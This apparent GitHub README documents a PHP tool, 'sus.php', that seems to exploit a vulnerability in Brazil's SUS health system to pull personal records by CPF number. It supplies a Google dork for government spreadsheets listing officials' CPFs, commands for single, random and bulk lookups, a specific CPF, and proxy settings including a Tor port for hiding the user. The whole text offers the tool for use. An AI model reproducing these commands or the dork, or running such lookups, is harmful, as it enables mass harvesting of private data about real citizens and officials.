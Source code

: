 <h1>[-] Vulnerability Sending Sus</h1>

[-] Dork:
site:www1.tce.pr.gov.br cpf deputados/prefeitos ext:xls

http://twitter.com/@MatheusTDashh

<p>[-] Pesquisa CPF único     --> php sus.php --cpf 13326724691 -s resultado.txt</p>
<p>[-] Pesquisa CPF randômico --> php sus.php --cpf --dandom -s resultado.php</p>
<p>[-] Pesquisa CPF arquivo   --> php sus.php -o arquivo_cpf.txt -s resultado.php</p>
<p>[-] Pesquisa com proxy     --> php sus.php --cpf 13326724691 -s resultado.txt --proxy proxy:porta</p>
<p>php sus.php --cpf --random -s resultado.txt --proxy proxy:porta</p>
<p>php sus.php -o arquivo_cpf.txt -s resultado.txt --proxy proxy:porta</p>

<h3><p>[-] Formato proxy:</h3></p>
<p>--proxy localhost:8118</p>
<p>--proxy socks5://matheus@localhost:9050</p>
<p>--proxy http://admin:1234@172.16.0.90:8080</p>

<h3>[-] Depêndencias:</h3>
<p>#PHP Version         5.4.7</p>
<p>#php5-curl           LIB</p>
<p>#php5-cli            LIB</p>
<p><img width="650" height="400" src="http://i.imgur.com/fuNul5h.jpg"></p>
